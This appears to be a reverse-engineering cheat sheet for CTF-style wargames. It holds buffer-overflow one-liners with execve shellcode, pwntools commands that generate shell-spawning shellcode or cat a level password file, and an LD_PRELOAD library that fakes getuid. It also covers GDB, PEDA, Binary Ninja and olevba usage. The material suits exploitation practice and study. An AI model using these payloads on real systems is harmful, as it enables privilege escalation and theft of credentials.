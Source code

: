 # Reverse Engineering

- [GCC](#gcc)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)
- [Lib Injection](#lib-injection)
- [Binary ninja](#binary-ninja)

## Overflow
### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

## Binary ninja
### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

## Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```
LD_PRELOAD=./libnike.so ./exec
```

## Macro Office PPTM
### Install
```
sudo pip3 install oletools
```
### Decompress PPTM
```
olevba  -c file.pptm
```
